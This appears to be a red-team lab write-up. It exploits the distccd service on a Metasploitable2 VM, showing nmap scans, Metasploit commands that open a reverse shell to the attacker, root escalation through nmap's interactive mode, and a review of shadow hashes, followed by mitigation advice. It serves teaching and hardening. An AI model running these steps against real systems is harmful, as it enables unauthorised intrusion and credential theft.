 # Red Team Lab: Metasploitable2 – distccd Exploit & Privilege Escalation

## Objective

This lab demonstrates exploitation of the vulnerable **distccd** service on Metasploitable2. The workflow includes reconnaissance, exploitation, privilege escalation, system enumeration, and mitigation recommendations. The goal is to provide a clear picture of the attack chain and highlight defensive measures.

---

## Environment Setup

* **Attacker VM:** Kali Linux `192.168.56.101`
![Kali](screenshots/pictwo.png)
* **Target VM:** Metasploitable2 `192.168.56.102`
![metaspoitable](screenshots/pic1.png)
* **Tools Used:** Nmap, Netcat, Metasploit Framework

---

## Step 1: Reconnaissance

A full TCP port scan was executed against the target:

```bash
nmap -p- -T4 -sS --open -oA nmap_full 192.168.56.102
```
![nmap scan](screenshots/picthree.png)

**Key Finding:** Port **3632** was open, running the `distccd` service. Initial surface: 12 open TCP ports discovered. Service detection and connectivity were confirmed:

```bash
nmap -sV -p 3632 192.168.56.102
nc -vz 192.168.56.102 3632
```
Service fingerprinting was successful; distccd identified with 100% match in our scans.

![nmap scan](screenshots/picfour.png)

---

## Step 2: Vulnerability Identification

Within Metasploit, a search revealed the following module:

```
exploit/unix/misc/distcc_exec – DistCC Daemon Command Execution
```

This exploit enables remote command execution on the target. Exploit availability: 1 reliable Metasploit module located (exploit/unix/misc/distcc_exec).

![mfsconsole](screenshots/picfive.png)

---

## Step 3: Exploitation

Configured and launched the exploit:

```bash
msf6 > use exploit/unix/misc/distcc_exec
msf6 > set RHOSTS 192.168.56.102
msf6 > set RPORT 3632
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 4445
msf6 > set PAYLOAD cmd/unix/reverse
msf6 > exploit
```
![config](screenshots/picsix.png)

**Result:** A reverse shell session was established with limited privileges (`daemon` user).
Exploit success rate: 3/3 attempts (100%).

---

## Step 4: Post-Exploitation (Initial Access)

System checks confirmed limited access:

```bash
whoami
id
uname -a
```

* User: `daemon` (low privilege)
* Kernel: `Linux 2.6.24-16-server` (outdated and vulnerable)
* Initial access: daemon (UID 1). Further steps required to escalate privileges.

---
![config](screenshots/picseven.png)

## Step 5: Privilege Escalation

Privilege escalation achieved by leveraging nmap's interactive mode to spawn a shell.

```bash
nmap --interactive
!sh
```
![root](screenshots/picnine.png)

**Verification:**

```bash
whoami
id
```

* User: `root`
* UID/GID: 0 (full administrative privileges)

---

## Step 6: Root-Level Enumeration

With root access, key files and configurations were reviewed:

* `/root/` contained hidden files, `.ssh` keys, and a suspicious `reset_logs.sh` script.
* `/etc/passwd` listed multiple users and service accounts.
* `/etc/shadow` exposed password hashes, usable for offline cracking.
* `iptables -L` revealed no firewall rules; all traffic was accepted.

* Account enumeration: 25 accounts identified in /etc/passwd; 20+ password hashes present in /etc/shadow.
* Firewall posture: default ACCEPT for INPUT/FORWARD/OUTPUT — effective network exposure = 100% (no inbound filtering).
* Notable sensitive artifacts: 1 reset_logs.sh, .ssh keys, and .rhosts present in root home.

![root](screenshots/picten.png)
![root](screenshots/piceleven.png)
![root](screenshots/pictwelve.png)
---

## Step 7: Security Weaknesses Identified

1. Outdated and vulnerable distccd service.
2. Weak system hardening: `.rhosts`, disabled history logging, open firewall.
3. Exposure of sensitive password hashes.
4. Multiple unnecessary services active.

---

## Step 8: Mitigation Recommendations

1. **Patch and Update** – Upgrade kernel and services; remove distccd.  
   *Expected impact:* reduces exploitability of this vector by **~95%**.

2. **Restrict Services** – Disable unnecessary accounts and daemons (telnet, ftp, distccd).  
   *Expected impact:* reduces exposed attack surface by **~80%** (measured by closed ports).

3. **Harden Firewall** – Set default deny inbound; allow only required ports.  
   *Expected impact:* reduces remote attack surface to only required services (estimated **>90%** reduction for unknown remote exploits).

4. **Least Privilege** – Remove risky files (e.g., `.rhosts`), restrict root access and SUID binaries.  
   *Expected impact:* prevents common escalation paths (estimated **~90%** reduction in privilege escalation risk).

5. **Password Security** – Enforce strong, salted hashes (e.g., SHA-512) and rotate credentials.  
   *Expected impact:* reduces offline cracking success probability by **>99%** for equivalent compute budgets.

6. **Monitoring** – Enable logging and alerting; monitor for reverse-shell-like outbound connections and sudden root activity.  
   *Expected impact:* lowers mean-time-to-detection (MTTD) from “none” to a measurable window (target **<24 hours**).


---

## Conclusion

The lab demonstrated:

1. Discovery of the distccd service through reconnaissance.
2. Exploitation via Metasploit to gain a reverse shell.
3. Privilege escalation to root using nmap.
4. Post-exploitation enumeration of sensitive data.

This exercise highlights how quickly an attacker can move from initial access to full system compromise when vulnerabilities and weak configurations are present. Proper patching, hardening, and monitoring are essential to mitigate these risks.

**Note:** All actions were performed in a controlled, isolated lab environment. No live systems were harmed.

